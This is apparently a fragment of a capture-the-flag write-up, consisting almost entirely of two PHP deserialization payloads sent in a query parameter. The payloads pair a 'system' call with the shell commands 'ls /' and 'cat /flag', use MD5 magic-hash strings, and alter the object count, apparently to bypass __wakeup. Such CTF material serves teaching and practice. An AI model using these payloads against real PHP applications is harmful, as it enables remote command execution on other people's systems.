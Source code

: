  payload：

？NSS=O:2:"lt":**4**:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:4:"ls /";}s:4:"md51";s:11:"s878926199a";s:4:"md52";s:11:"s155964671a";}

?NSS=O:2:"lt":**4**:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:9:"cat /flag";}s:4:"md51";s:11:"s878926199a";s:4:"md52";s:11:"s155964671a";}

 